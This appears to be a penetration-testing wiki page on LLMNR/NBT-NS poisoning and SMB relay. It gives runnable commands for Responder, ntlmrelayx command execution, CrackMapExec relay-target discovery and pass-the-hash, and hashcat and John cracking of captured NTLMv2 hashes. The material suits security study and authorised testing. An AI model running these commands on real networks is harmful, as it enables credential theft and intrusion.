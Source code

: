 ```yaml
---
title: LLMNR
description: 
published: true
date: 2021-02-01T01:17:18.601Z
tags: network, postex, llmnr
editor: markdown
dateCreated: 2021-01-29T15:29:14.015Z
---
```


# Man-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
(https://attack.mitre.org/software/S0174/) 

## Links 
Social Media
https://twitter.com/pythonresponder

Responder for Linux with Python
https://github.com/lgandx/Responder

Responder for Windows 
https://github.com/Kevin-Robertson/Inveigh

## Usage

## The Short: 

This allows an attacker to pretend to be another service and “claim” it as their own if the system can respond before the legitimate system can and in terms say :yes, that’s me send password” and collect over the wires passwords and password hashes and usernames. 

## The Long: 

Opening and operating this tool uses all the mDNS, LLMNR, NBT-NS and others in a way to collect possible NTLM (or other) credentials to be used to either crack or relay around a network that might be broadcasting the credentials around.
This allows you to also relay them with other tools. For this to best work you must find systems that do not have SMB signing enabled preferable V1 but v2 can work this is best done with crack map Exec (CME) in kali 
``` cme smb <CIDR> --gen-relay-list targets.txt ```

## MultiRelay: https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py


## NTLMRelayx : https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
Usage: ``` ntlmrelayx.py -t $target ```
Usage advanced: ``` ntlmrelayx.py -tf targets.txt -c $insert commands here$ ``` 

                        .

## HashCat 
``` hashcat -a 0 -m 5600 hashes.txt rockyou.txt -o cracked.txt -O ``` 

So, what does this do? Let’s break it down.
-a is for the attack type. 0 is used to specify we’re performing a dictionary attack.
-m is used to specify what type of hashes we’re looking to crack. Hashcat supports cracking dozens of different hash-types, so you’ll typically want to refer to their help documentation to know exactly which number to use. In our case, NTLMv2 hashes are represented by 5600
hashes.txt is a positional parameter. Hashcat expects you to place the name of the file containing your hashes first, which is what we’re doing here.
rockyou.txt is another positional parameter. Hashcat expects the name of the file that you wish to use for your dictionary attack.
-o is used to specify an output file. This is where we’d like the cracked passwords to be stored. If you don’t specify this flag, cracked passwords will be stored in a file called hashcat. potfile, which can be found in the hashcat directory.
-O is used to optimize the attack for the hardware running in our system. You may not need to use this.

## Jhon the ripper 
Usage: ``` john hasht.txt --wordlist=/usr/share/wordlists/rockyou.txt ``` 

## LLMNR Starting 

To start you need to find or locate responder usually 

Edit responder.conf
```
[Responder Core]

; Servers to start
SQL = On
SMB = Off     #off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    #off
HTTPS = On
DNS = On
LDAP = On
```

Then run 
``` sudo python Responder.py -I <interface> -rdw ```
``` sudo python Responder.py -I eht0 -rdw ```
Traffic should start to pop up
 Then set up the relay tool
``` ntlmrelayx.py -t $host$ ```
``` ntlmrelayx.py -tf $targets.txt$ ```

By default, it dumps the local SAM file if it can and if it does you can gain access with CME 
``` crackmapexec smb 10.55.100.0/24 -u $USER$ -H $HASH5120d0cb0df939e3044c5843e37b2c5f$ --local –lsa ```


## More Info Links
https://attack.mitre.org/techniques/T1557/001/
https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/
https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef
https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html




